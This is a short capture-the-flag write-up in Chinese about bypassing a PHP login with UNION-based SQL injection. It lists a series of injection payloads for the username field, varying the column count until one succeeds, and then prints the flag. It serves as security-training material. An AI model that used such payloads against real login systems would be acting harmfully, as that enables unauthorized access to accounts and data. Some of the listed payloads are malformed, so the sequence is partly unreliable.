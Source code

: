 # Injection 2
給你php原始碼，要你使用injection登入，hint說：創造一個假的query結果，於是想到UNION。要拿到flag的關鍵語句：
 1. SELECT返回結果只能有1個才能進入給flag的程式碼
 2. 表格user的attribute: user_level要>=1337

於是, 使用：
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level#
 * password = 123
登入，可是登入失敗，原因是UNION後面加的SELECT和前面的SELECT的column沒對到，可能是數目不對或是順序不對，試試加一個column：
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, null, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level, null#
全失敗，加兩個column：
 * username = hehe' UNION SELECT　null, null, 'hehe' as username, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, null, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level, null#
 * username = hehe' UNION SELECT, 'hehe' as username, null, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT, 'hehe' as username, null, '123' as password, null, 1337 as user_level#
成功！！flag = flag_nJZAKGWYt7YfzmTsCV
